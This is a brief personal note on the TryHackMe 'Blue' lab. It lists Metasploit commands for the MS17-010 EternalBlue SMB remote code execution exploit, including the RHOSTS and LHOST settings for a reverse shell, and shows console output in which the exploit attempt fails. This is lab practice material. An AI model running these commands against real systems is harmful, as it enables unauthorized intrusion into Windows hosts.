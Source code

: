 # TryHackMe - BLUE

More metasploit practice

## MS SMB (ms17-010 exploitation)

Microsoft Samba Share - Remote Code Execution exploit

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue_win8
```

```
# for host exploitation
set RHOSTS <TryHackMe-Box-IP>
# for local reverse shell interception
set LHOST <TryHackMe-tun0-VPN-IP>
```

```
# foreground exploit run
exploit 
-or- 
# background exploit run
run -js
```

**Stuck here** 
```
exploit
...
[*] 10.10.254.39:445 - Receiving response from exploit packet
[-] 10.10.254.39:445 - Did not receive a response from exploit packet
[*] 10.10.254.39:445 - Sending egg to corrupted connection.
[-] 10.10.254.39:445 - Errno::ECONNRESET: Connection reset by peer
```